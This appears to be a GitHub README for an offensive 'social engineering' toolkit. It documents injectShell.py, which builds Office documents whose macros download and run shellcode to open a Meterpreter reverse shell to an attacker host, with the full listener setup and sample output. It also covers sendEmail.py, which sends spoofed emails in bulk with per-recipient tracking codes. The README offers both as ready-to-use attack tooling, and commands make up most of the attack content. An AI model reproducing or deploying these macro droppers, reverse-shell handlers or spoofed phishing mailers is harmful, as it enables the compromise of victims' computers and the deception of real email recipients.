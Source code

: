 # Social-Engineering-Toys
Social Engineering Toys  
**injectShell.py**  
  
The script generates office documents (xls, doc and ppt) that includes VBA code that download and run the Invoke-Shellcode.ps1 (creates a meterpreter reverse shell back to server) when the victim enables Macro in the document.  
  
You will need to run the windows/meterpreter/reverse_https payload on your the attacker host.  
```
$ ./msfconsole
msf> use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_https
msf exploit(handler) > set LHOST consulting.example.org
msf exploit(handler) > set LPORT 4443
msf exploit(handler) > set SessionCommunicationTimeout 0
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j
[*] Exploit running as background job.
```
  
Below is the help screen of the script.  
```
$  python injectShell.py -h
usage: injectShell.py [-h] [-t T] [-o O] [-ip IP] [-port PORT]

optional arguments:
  -h, --help  show this help message and exit
  -t T        [xls|doc|ppt|all]
  -o O        [output filename (without extension)]
  -ip IP      [meterpreter listener ip address]
  -port PORT  [meterpreter listener port]

```

Below is the script in action.  

```
$  python injectShell.py -t all -o salary -ip 192.168.1.6 -port 1111 
- Generated: salary.xls
- Generated: salary.doc
- Generated: salary.ppt
```
    
     
   
    
**sendEmail.py**  
This script is useful in sending spoofed emails to some SMTP servers. This can be useful in social engineering engagements.    
  
Below is the help screen of the script.    
```
$ python sendEmail.py -h
usage: sendEmail.py [-h] [-f F] [-n N] [-e E] [-t T] [-iL IL] [-v]

optional arguments:
  -h, --help  show this help message and exit
  -f F        [html file containing the email body]
  -n N        [recipient name]
  -e E        [recipient email]
  -t T        [delay between 1 to x seconds (random)]
  -iL IL      [file containing recipient name and email addresses per line
              separated by comma]
  -v          [verbose]
```
  
Below is the script in action.  
```
$ python sendEmail.py -iL namelist.txt -f sampleHtml.txt -t 10
Sending email to: test01@example.com  
```
  
Below are two sample formats of namelist.txt  
**Below is sample 1**  
The fields are separated by ","   
The first field is: recipient's name  
The second field is: recipient's email address  


```
Keith,keith123@hotmail.com
```

**Below is sample 2**  
The first field is: recipient's name  
The second field is: recipient's email address  
The last field is: tracking code  

```
Keith,keith123@hotmail.com,UAG21E
```
